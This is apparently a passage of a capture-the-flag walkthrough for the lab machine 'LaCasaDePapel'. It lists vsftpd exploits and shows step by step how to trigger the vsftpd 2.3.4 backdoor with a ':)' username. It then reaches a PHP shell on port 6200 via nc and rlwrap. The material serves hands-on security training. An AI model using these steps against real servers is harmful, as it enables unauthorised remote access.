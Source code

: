 ```
vsftpd 2.0.5 - 'deny_file' Option Remote Denial of Service (1)                                                                                                                                             | windows/dos/31818.sh
vsftpd 2.0.5 - 'deny_file' Option Remote Denial of Service (2)                                                                                                                                             | windows/dos/31819.pl
vsftpd 2.3.2 - Denial of Service                                                                                                                                                                           | linux/dos/16270.c
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                                                                                                                                                     | unix/remote/17491.rb
vsftpd 2.3.4 - Backdoor Command Execution                                                                                                                                                                  | unix/remote/49757.py
vsftpd 3.0.3 - Remote Denial of Service                                                                                                                                                                    | multiple/remote/49719.py
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```
As we can notice we have two available exploits: one metasploit module and one python script.
## Foothold
As always, before going for automatic exploitation, let's check what the exploit is actually doing and exploit it manually.  
Without too much effort, we can notice that to trigger the backdoor command execution, we just need to append a colon and a parenthesis ':)' at the end of the username.  
This will spawn a listening connection on port 6200.  
So, now, we can simply:
```
[root@kali exploits ]$ ftp $TARGET
Connected to 10.10.10.131.
220 (vsFTPd 2.3.4)
Name (10.10.10.131:root): b0d:)
331 Please specify the password.
Password:
```
and netcat to port 6200, as we can see we get a php interactive shell.  
```
[root@kali LaCasaDePapel ]$ nc $TARGET 6200     
Psy Shell v0.9.9 (PHP 7.2.10 — cli) by Justin Hileman
```
since this shell is messy and the output is not displayed well, we can use rlwrap in order to have a more interactive terminal.  
rlwrap runs the specified command, intercepting user input in order to provide readline's line editing, persistent history and completion.
This is actually a wrapper for a command that provides history and tab completition.  
now, from this php interactive shell, unfortunately, we cannot spawn any bash shell, since all functions for command execution are disabled:  
```
[root@kali LaCasaDePapel ]$ rlwrap nc 10.10.10.131 6200
Psy Shell v0.9.9 (PHP 7.2.10 — cli) by Justin Hileman
ls
Variables: $tokyo
system("ping 10.10.14.5");
PHP Fatal error:  Call to undefined function system() in Psy Shell code on line 1
```
If we run phpinfo() function, we can see that system is disabled
```
phpinfo();
[... SNIP ...]
```